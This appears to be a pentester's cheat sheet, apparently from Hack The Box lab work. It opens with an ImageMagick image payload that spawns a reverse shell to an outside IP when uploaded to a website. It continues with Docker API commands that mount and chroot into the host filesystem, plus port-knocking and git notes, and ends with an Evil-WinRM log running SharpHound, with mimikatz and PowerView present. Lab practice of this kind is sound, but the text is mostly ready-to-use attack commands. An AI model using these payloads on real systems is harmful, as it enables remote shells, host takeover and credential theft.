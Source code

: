 ```png
push graphic-context
encoding "UTF-8"
viewbox 0 0 1 1
affine 1 0 0 1 0 0
push graphic-context
image Over 0,0 1,1 '|/bin/sh -i > /dev/tcp/10.9.172.114/80 0<&1 2>&1'
pop graphic-context
pop graphic-cont
```

upload in website and got reverse shell

## Pentesting Docker 2375 

curl -s http://open.docker.socket:2375/version | jq // get version

docker -H open.docker.socket:2375 version // get version

export DOCKER_HOST="tcp://localhost:2375" // To avoid -H option '-H' is host option.

docker run -it -v /:/host/ ubuntu:latest chroot /host/ bash

docker -H <host>:2375 run --rm -it --privileged --net=host -v /:/mnt alpine


## Port Knocking

knock -v 10.10.99.60 42 1337 10420 6969 63000

## git

git log

git checkout // to view commit

## shraphound

```bash
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> . .\SharpHound.ps1
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> Invoke-BloodHound -CollectionMethod All -Domain htb.local -zipFileName loot.zip
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> ls                                                                                                                     
                                                                                                                                                                        
                                                                                                                                                                        
    Directory: C:\Users\svc-alfresco\Documents                                                                                                                          
                                                                                                                                                                        
                                                                                                                                                                        
Mode                LastWriteTime         Length Name                                                                                                                   
----                -------------         ------ ----                                                                                                                   
-a----         2/8/2023   9:39 AM          19096 20230208093954_loot.zip                                                                                                
-a----         2/8/2023   9:30 AM              0 bloodhound_data.json                                                                                                   
-a----         2/8/2023   9:02 AM        1250056 mimikatz.exe                                                                                                           
-a----         2/8/2023   9:39 AM          19605 MzZhZTZmYjktOTM4NS00NDQ3LTk3OGItMmEyYTVjZjNiYTYw.bin
-a----         2/8/2023   9:07 AM         770279 PowerView.ps1
-a----         2/8/2023   9:21 AM        1318097 SharpHound.ps1


```